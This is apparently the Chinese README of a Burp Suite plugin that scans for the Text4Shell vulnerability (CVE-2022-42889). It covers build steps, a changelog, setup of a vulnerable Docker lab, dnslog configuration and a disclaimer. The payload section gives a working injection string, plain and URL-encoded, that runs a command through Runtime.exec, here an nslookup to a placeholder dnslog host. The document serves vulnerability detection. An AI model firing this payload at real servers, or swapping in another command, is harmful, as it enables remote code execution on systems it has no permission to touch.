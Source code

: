 # BurpText4ShellScan

---

使用java编写的Text4shell burp被动扫描插件

# 简介

---

java maven项目，可以使用`mvn package`进行编译

# 更新

---

```
1.0 - 首次上传，对所有经过burp的包进行被动扫描，扫描对象包括了json、xml、fileupload
1.1 - 修复了body为空时导致的检测错误，修复了对URL参数不检测的错误
1.2 - 修复了body仅有json与xml时出现的参数构造错误，修复了dns二次检测时未获取key导致的错误
1.3 - 添加了主动扫描功能
1.4 - 添加了header黑名单功能，可以在resources/config.yml中修改
```

# payload

---

```
- "%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup+dns-url%27%29%7D"
- "${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup dns-url')}"
```

可以在`resources/config.yml`修改

# 使用

---

### 0x01 搭建环境

使用github中的[https://github.com/karthikuj/cve-2022-42889-text4shell-docker](https://github.com/karthikuj/cve-2022-42889-text4shell-docker)搭建环境

![image-20221217013031381](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013031381.png)



### 0x02 插件

代理访问`http://yourip:80/text4shell/attack?search=aaa`，开始扫描

在logger中可看见插件发送的包

![image-20221217013353536](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013353536.png)

仅对是否可以dnslog进行扫描，若dnslog接受到请求，则爆出漏洞

![image-20221217013651624](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013651624.png)

![image-20221217013717306](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013717306.png)

### 0x03 配置

在`resources/config.yml`中的`dnsLogModule`修改dnslog配置，使用时可以修改为自搭建的DnsLog服务器

![image-20221217014026078](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217014026078.png)



# 参考

---

[https://github.com/pmiaowu/BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan)

[https://github.com/f0ng/log4j2burpscanner](https://github.com/f0ng/log4j2burpscanner)

# 免责声明

---

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。